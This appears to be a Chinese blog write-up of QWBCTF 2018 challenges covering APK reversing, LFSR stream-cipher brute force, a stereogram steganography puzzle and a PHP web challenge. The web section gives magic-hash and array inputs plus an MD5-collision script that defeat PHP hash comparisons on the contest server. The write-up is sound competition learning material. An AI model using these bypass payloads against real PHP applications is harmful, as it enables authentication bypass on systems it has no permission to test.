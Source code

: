 ```yaml
---
typora-root-url: ../
layout:     post
title:      QWBCTF 2018 Writeup
subtitle:   QWB{xxxxxxxxxxxxx}
date:       2018-03-26 22:00 +0800
author:     ThTsOd, ydh, gsfish
header-img: img/post-bg-hacker.jpg
tags:
 - CTF
---
```



# 0x00 Reverse

## simplecheck

下载下来发现是个 zip 文件，打开后发现是 apk，用 jeb 载入并反编译

![01.png](/img/qwbctf-2018-writeup/01.png)

发现 `a` 是验证函数，跟入

![02.png](/img/qwbctf-2018-writeup/02.png)

转成 C 语言，各个位独立，暴力解出 flag

![03.png](/img/qwbctf-2018-writeup/03.png)

---

# 0x01 Crypto

## streamgame1

根据 `R=int(flag[5:-1],2)` 以及 `len(flag)==25` 推测 flag 为 19 个二进制位，暴力解出 flag 即可

![04.png](/img/qwbctf-2018-writeup/04.png)

## streamgame2

和上题一样，根据 `R=int(flag[5:-1],2)` 以及 `len(flag)==27` 推测 flag 为 21 个二进制位，暴力解出 flag 即可

![05.png](/img/qwbctf-2018-writeup/05.png)

## streamgame4

和上题一样，根据 `R=int(flag[5:-1],2)` 以及 `len(flag)==27` 推测 `flag` 为 21 个二进制位，这里只验证 key 前 16 个字节，暴力解出 flag 即可

![06.png](/img/qwbctf-2018-writeup/06.png)

---

# 0x02 Misc

## welcome

下载下来发现是 dib 文件，用 16 进制编辑器打开，发现前 2 个字节是 `BM` 重命名为 bmp 后用 StegSolve 打开。用 Stereogram Solver 偏移量 `offset` 为 80 后发现 flag

![07.png](/img/qwbctf-2018-writeup/07.png)

---

# 0x03 Web

## Web 签到

第一关网页源码的提示人如下。可用 PHP 弱类型过掉，`param1=QNKCDZO`、`param2=s878926199a`：

```php
if($_POST['param1']!=$_POST['param2'] && md5($_POST['param1'])==md5($_POST['param2'])){
    die("success!");
}
```

第二关将等于换成了全等于，传进去一个数组即可，使 `md5()` 的结果为 `null`。`param1[]=123`、`param2[]=456`。

```php
if($_POST['param1']!==$_POST['param2'] && md5($_POST['param1'])===md5($_POST['param2'])){
    die("success!");
}
```

第三关网页源码如下。由于使用了强制类型转换，传递对象则会转换为对象名称，因此只能使用 MD5 相等的字符串。使用 fastcoll 根据同一个文件生成了两个内容有差异，但 MD5 相同的文件 f1、f2，使用文件的二进制内容作为 param1、param2 参数。

```php
if((string)$_POST['param1']!==(string)$_POST['param2'] && md5($_POST['param1'])===md5($_POST['param2'])){
    die("success!);
}
```

使用脚本如下：

```python
import requests
session = requests.Session()
step1 = session.post("http://39.107.33.96:10000", data={
	"param1": "QNKCDZO",
	"param2": "s878926199a"
})
step2 = session.post("http://39.107.33.96:10000", data={
    "param1[]": "123",
    "param2[]": "456",
})
step3 = session.post("http://39.107.33.96:10000", data={
	"param1": open('f1', 'rb').read(),
	"param2": open('f2', 'rb').read()
})
print(step3.content)
```
